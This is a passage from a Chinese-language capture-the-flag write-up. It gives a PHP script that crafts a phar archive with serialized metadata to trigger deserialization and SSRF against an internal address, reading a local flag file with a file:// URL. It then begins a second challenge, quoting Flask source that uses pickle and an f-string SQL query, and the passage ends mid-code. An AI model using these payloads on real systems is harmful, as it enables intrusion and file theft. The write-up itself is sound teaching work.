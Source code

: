 然后触发phar

![image-20220802153431100](https://tuchuang.huamang.xyz/img/image-20220802153431100.png)

有内网能打

![image-20220802153454700](https://tuchuang.huamang.xyz/img/image-20220802153454700.png)

最后的exp

```php
<?php
class AdminShow{
    public $source;
    public $str;
    public $filter;
    public function __construct($file)
    {
        $this->source = $file;
    }
    
}

@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$o = new AdminShow("http://10.10.10.10/?url=file:///flag");
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("demo.jpg", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```

![image-20220802153524847](https://tuchuang.huamang.xyz/img/image-20220802153524847.png)

# crash

题目说504可以拿到flag，504是Gateway Timeout

给了源码

```python
import base64
# import sqlite3
import pickle
from flask import Flask, make_response,request, session
import admin
import random

app = Flask(__name__,static_url_path='')
app.secret_key=random.randbytes(12)

class User:
    def __init__(self, username,password):
        self.username=username
        self.token=hash(password)

def get_password(username):
    if username=="admin":
        return admin.secret
    else:
        # conn=sqlite3.connect("user.db")
        # cursor=conn.cursor()
        # cursor.execute(f"select password from usertable where username='{username}'")
```